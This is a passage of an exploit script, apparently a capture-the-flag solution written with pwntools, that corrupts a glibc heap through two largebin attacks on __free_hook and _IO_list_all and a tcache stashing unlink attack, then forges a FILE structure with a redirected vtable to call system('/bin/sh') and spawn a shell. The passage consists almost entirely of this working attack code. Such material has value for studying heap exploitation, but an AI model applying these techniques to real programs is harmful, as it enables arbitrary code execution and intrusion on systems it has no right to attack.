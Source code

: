 ```
Del(17)

Change(2)
free_hook = libc_base + libc.sym['__free_hook']
Edit(8, p64(0) + p64(free_hook-0x28) + '\n')

Change(3)
Add(0xa0, 'C'*0x28) # C0 triger largebin_attack, write a heap addr to __free_hook-8

Change(2)
Edit(8, 2*p64(heap_base+0x13e80) + '\n') # recover

#----- second largebin_attack
Change(3)
Add(0x380, 'C'*0x118) # C1

Change(1)
Del(19)

Change(2)
IO_list_all = libc_base + libc.sym['_IO_list_all']
Edit(8, p64(0) + p64(IO_list_all-0x20) + '\n')

Change(3)
Add(0xa0, 'C'*0x28) # C2 triger largebin_attack, write a heap addr to _IO_list_all

Change(2)
Edit(8, 2*p64(heap_base+0x13e80) + '\n') # recover

#----- tcache_stashing_unlink_attack and FILE attack
Change(1)
payload = 'A'*0x50 + p64(heap_base+0x12280) + p64(free_hook-0x20)
Edit(8, payload + '\n')

Change(3)
payload = '\x00'*0x18 + p64(heap_base+0x147c0)
payload = payload.ljust(0x158, '\x00')
Add(0x440, payload) # C3 change fake FILE _chain
Add(0x90, 'C'*0x28) # C4 triger tcache_stashing_unlink_attack, put the chunk of __free_hook into tcache

IO_str_vtable = libc_base + 0x1ED560
system_addr = libc_base + libc.sym['system']
fake_IO_FILE = 2*p64(0)
fake_IO_FILE += p64(1)                    #change _IO_write_base = 1
fake_IO_FILE += p64(0xffffffffffff)        #change _IO_write_ptr = 0xffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(heap_base+0x148a0)                #v4
fake_IO_FILE += p64(heap_base+0x148b8)                #v5
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, '\x00')
fake_IO_FILE += p64(0)                    #change _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, '\x00')
fake_IO_FILE += p64(IO_str_vtable)        #change vtable
payload = fake_IO_FILE + '/bin/sh\x00' + 2*p64(system_addr)
sa('Gift:', payload)


Menu(5)
sla('user:\n', '')

irt()
```
